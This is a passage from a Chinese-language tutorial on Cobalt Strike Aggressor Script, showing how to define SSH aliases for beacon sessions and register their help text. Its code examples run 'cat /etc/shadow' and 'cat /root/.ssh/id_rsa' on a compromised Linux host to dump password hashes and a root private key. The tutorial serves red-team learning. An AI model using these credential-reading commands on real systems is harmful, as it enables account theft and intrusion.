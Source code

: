 运行一下：

![image-20201215230423505](/assets/wgpsec/images/Aggressor-Script/image-20201215230423505.png)

判断出了我们的主机信息



## SSH Aliases

> 和 beacon alias 一样，我们也可以为 liunx 主机创建 SSH 控制台命令，比如查看我们的 /etc/password：

下面的 `$1` 是信标的会话 ID

```shell
ssh_alias hashdump {
	if (-isadmin $1) { # 判断是否为管理员，因为password非管理员不等查看
		binput($1,"导出passwod的HASH：")
		bshell($1, "cat /etc/shadow");
	}
	else {
		berror($1, "你不是管理员！！");
	}
}
```

![image-20201215231244460](/assets/wgpsec/images/Aggressor-Script/image-20201215231244460.png)

当然你也可以写其他命令，bshell 数据模型是用来执行命令的，他需要的参数如下：

`$1` 信标的会话ID

`$2` 需要执行的命令



比如我们查看 liunx 主机的SSH密匙的信息：

```shell
ssh_alias ssh_demo{
	binput($1,"打印SSH私钥信息");
	bshell($1,"cat /root/.ssh/id_rsa");
}
```

运行：

![image-20201215231926776](/assets/wgpsec/images/Aggressor-Script/image-20201215231926776.png)



## ssh_command_register

当自定义一个 ssh命令 以后，只有自己知道这个 命令的具体使用方式，当想要所有人都知道这条命令的含义的时候，我们可以使用 ssh_command_register 数据模型  显示帮助信息，他需要接受三个参数

`$1` 自定义的命令

`$2` 命令的介绍
